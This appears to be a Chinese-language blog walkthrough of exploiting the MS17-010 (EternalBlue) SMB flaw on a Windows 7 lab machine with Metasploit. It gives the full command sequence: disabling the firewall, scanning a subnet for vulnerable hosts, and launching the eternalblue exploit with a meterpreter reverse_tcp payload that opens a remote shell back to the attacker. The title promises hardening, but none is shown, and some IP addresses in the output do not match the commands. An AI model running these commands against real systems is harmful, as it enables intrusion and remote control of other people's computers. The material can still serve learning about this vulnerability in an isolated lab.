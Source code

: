 ```yaml
---
cover: http://cloud.myxz.fun//blog/20250321163522292.png
icon: pen-to-square
date: 2025-03-19
category:
  - 经典漏洞
tag:
  - 永恒之蓝ms17-010
star: false
sticky: true
---
```


# 永恒之蓝ms17-010

MS17_010漏洞利用与安全加固（永恒之蓝）

之前做过就直接放出来啦

- 原理：

恶意代码会扫描开放445文件共享端口的Windows机器，无需用户任何操作，只要开机上网，不法分子就能在电脑和服务器中植入勒索软件、远程控制木马、虚拟货币挖矿机等恶意程序。

- 开始

1.断开防火墙，windos 7 的防火墙关闭

![关闭防火墙](http://cloud.myxz.fun//blog/20250321163252914.png)

2.实现相互ping通

![ping通](http://cloud.myxz.fun//blog/20250321163512998.png)

![image-20250321163319897](C:\Users\17929\AppData\Roaming\Typora\typora-user-images\image-20250321163319897.png)

环境弄好了，正文开始！172.16.17.0

3.在kali当中启动metasploit工具，

通过执行msfconsole指令进行启动。

![msf](http://cloud.myxz.fun//blog/20250321163522292.png)

4.Search命令搜索ms17-010漏洞扫描模块，图中圈中的就是漏洞扫描模块。

执行：

```
search ms17-010 //搜索ms17-010相关漏洞利用模块
```

![选择](http://cloud.myxz.fun//blog/20250321163529077.png)

执行：

```
msf > use auxiliary/scanner/smb/smb_ms17_010 （利用模块该扫描模块并且设置相关扫描范围信息）。**
```

执行：

```
use auxiliary/scanner/smb/smb_ms17_010 //选择使用该模块执行搜索选项

set rhosts 192.168.6.0/24 //设置扫描的网段范围

set threads 20 //设置扫描的线程，数值越大扫描速度越快

run //开始运行即开始执行扫描
```

![负载](http://cloud.myxz.fun//blog/20250321163538468.png)

6.执行扫描过后，结果如下所示，从结果中可以看到在当前扫描的网段中存在一个windows 7版本的操作系统存在ms17-010漏洞。（192.168.6.135就是window 7的IP）

![image-20250321163419199](C:\Users\17929\AppData\Roaming\Typora\typora-user-images\image-20250321163419199.png)

192.168.32.136:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)

7.接下来进行漏洞利用过程即可，

执行：

```
use exploit/windows/smb/ms17_010_eternalblue //选择漏洞利用模块

set payload windows/x64/meterpreter/reverse_tcp //设置漏洞利用完成后的反弹模块，用以接收回馈信息

set lhost 192.168.6.130//设置反弹IP地址

set lport 5555 //设置反弹端口

set rhost 192.168.6.135 //设置被攻击的目标主机
```

![配置](http://cloud.myxz.fun//blog/20250321163545820.png)﻿

执行：

```
show options //检查设定的信息
```

![查看](http://cloud.myxz.fun//blog/20250321163554821.png)﻿

9.

执行：

```
run
```

或

```
exploit //开始进行漏洞利用
```

![提权](http://cloud.myxz.fun//blog/20250321163602950.png)﻿

看到WIN了吗？你就成功了！！！
